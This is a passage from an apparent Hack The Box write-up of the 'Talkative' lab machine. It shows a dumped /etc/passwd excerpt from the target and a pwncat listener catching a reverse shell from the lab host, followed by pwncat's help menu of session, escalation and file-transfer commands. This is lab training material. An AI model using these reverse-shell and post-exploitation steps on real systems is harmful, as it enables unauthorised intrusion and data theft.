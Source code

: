 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
### Stabilize the shell
The reverse shell was kinda unstable and since I was still in enumeration phase  I've decided to test out ```pwncat```
https://github.com/calebstewart/pwncat


```
┌──(kali㉿kali)-[~/htb/talkative]
└─$ /home/kali/.local/bin/pwncat-cs -lp 4242   
[15:59:34] Welcome to pwncat 🐈!                                                                                                             __main__.py:164
[15:59:38] received connection from 10.10.11.155:45180                                                                                            bind.py:84
[15:59:38] 0.0.0.0:4242: upgrading from /bin/dash to /bin/bash                                                                                manager.py:957
[15:59:39] 10.10.11.155:45180: registered new host w/ db                                                                                      manager.py:957
(local) pwncat$ help
                                                                            
  Command     Description                                                   
 ────────────────────────────────────────────────────────────────────────── 
  alias       Alias an existing command with a new name. Specifying [...]   
  back        Return to the remote terminal                                 
  bind        Create key aliases for when in raw mode. This only [...]      
  connect     Connect to a remote victim. This command is only valid [...]  
  download    Download a file from the remote host to the local host        
  escalate    Attempt privilege escalation in the current session. [...]    
  exit        Exit the interactive prompt. If sessions are active, [...]    
  help        List known commands and print their associated help [...]     
  info        View info about a module                                      
  lcd         Change the local current working directory                    
  leave       Leave a layer of execution from this session. Layers [...]    
  listen      Create a new background listener. Background listeners [...]  
  listeners   Manage active or stopped background listeners. This [...]     
  load        Load modules from the specified directory. This does [...]    
  local       Run a local shell command on your attacking machine           
  lpwd        Print the local current working directory                     
  reset       Reset the remote terminal to the standard pwncat [...]        
  run         Run a module. If no module is specified, use the [...]        
  search      View info about a module                                      
  sessions    Interact and control active remote sessions. This [...]       
  set         Set variable runtime variable parameters for pwncat           
  shortcut                                                                  
  upload      Upload a file from the local host to the remote host          
  use         Set the currently used module in the config handler           
                                                                            